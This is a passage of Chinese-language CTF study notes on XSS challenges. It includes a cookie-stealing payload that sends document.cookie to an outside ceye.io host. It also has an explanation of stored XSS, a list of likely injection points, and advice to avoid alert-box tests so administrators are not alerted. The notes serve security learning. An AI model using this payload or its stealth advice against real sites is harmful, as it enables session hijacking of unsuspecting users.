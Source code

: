 ```
<body/**/onload="window.open('http://we1wmh.ceye.io/'+document.cookie)"></body>
```

过滤了XSS，但我没有用过。

![](.\XSS\图片\web321.png)



### web327(VPS)

现在开始，学习存储型XSS

> 嵌入到web页面的恶意HTML会被存储到应用服务器端，简而言之就是会被存储到数据库（日志等也可），等用户打开页面时，会继续执行恶意代码，能够持续的攻击用户。
>
> 如何操作存储型XSS： 嵌入到web页面的恶意代码被存储到服务器上，例如在注册时候将用户昵称设置为XSS恶意代码，那么访问某些页面会显示用户名的时候就会触发恶意代码。
>
> JS属于前端代码，如果植入恶意代码成功，JS代码是不会显示出来的。
>
> 存储型XSS与反射型XSS的区别： 存储型存入数据库中，可持续时间长，而反射型持续时间短，仅对本次访问有影响，反射型一般要配合社工。
>
> 存储型XSS可以通过弹窗验证，不过不建议，会破坏网站结构，引起管理员的主意。
>
> 存储型XSS可能出现的位置：
> （1）用户注册
> （2）留言板
> （3）上传文件的文件名处
> （4）管理员可见的报错信息
> （5）在线聊天框
> （6）客服
> （7）问题反馈区
> （8）邮件信箱
> 理论上，见框就插。
